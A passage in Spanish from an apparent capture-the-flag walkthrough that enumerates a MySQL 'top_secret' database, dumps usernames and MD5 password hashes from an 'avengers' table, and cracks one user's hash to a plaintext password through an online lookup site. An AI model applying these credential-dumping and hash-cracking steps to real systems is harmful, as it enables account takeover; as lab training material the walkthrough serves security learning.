 Ahora cambiamos a **top_secret** para ver si contiene informacion valiosa:
```sql
mysql> use top_secret;
```

Enumeramos las tablas para esta base de datos:
```sql
mysql> show tables;
+----------------------+
| Tables_in_top_secret |
+----------------------+
| avengers             |
+----------------------+
```

Revisamos la estructura de la tabla:
```sql
mysql> desc avengers;
+----------+--------------+------+-----+---------+----------------+
| Field    | Type         | Null | Key | Default | Extra          |
+----------+--------------+------+-----+---------+----------------+
| id       | int          | NO   | PRI | NULL    | auto_increment |
| name     | varchar(100) | NO   |     | NULL    |                |
| username | varchar(100) | NO   | UNI | NULL    |                |
| password | varchar(255) | NO   |     | NULL    |                |
+----------+--------------+------+-----+---------+----------------+
```

Enumeramos la informacion para esta tabla:
```sql
mysql> select username, password from avengers;
+------------+----------------------------------+
| username   | password                         |
+------------+----------------------------------+
| ironman    | cc20f43c8c24dbc0b2539489b113277a |
| thor       | 077b2e2a02ddb89d4d25dd3b37255939 |
| hulk       | ae2498aaff4ba7890d54ab5c91e3ea60 |
| blackwidow | 022e549d06ec8ddecb5d510b048f131d |
| hawkeye    | d74727c034739e29ad1242b643426bc3 |
| steve      | 723a44782520fcdfb57daa4eb2af4be5 |
+------------+----------------------------------+
```

De este tabla el unico potencial que nos interesa es **steve** ya que es un usuario valido para el sistema:
```bash
steve      | 723a44782520fcdfb57daa4eb2af4be5
```

Sabiendo que son 32 caractares de longitud sabemos que es un hash **MD5**
```bash
echo -n "723a44782520fcdfb57daa4eb2af4be5" | wc --chars
32
```

Usamos este recurso only [Hashes](https://hashes.com/en/decrypt/hash) para desencriptar el hash
```bash
723a44782520fcdfb57daa4eb2af4be5:thecaptain
```
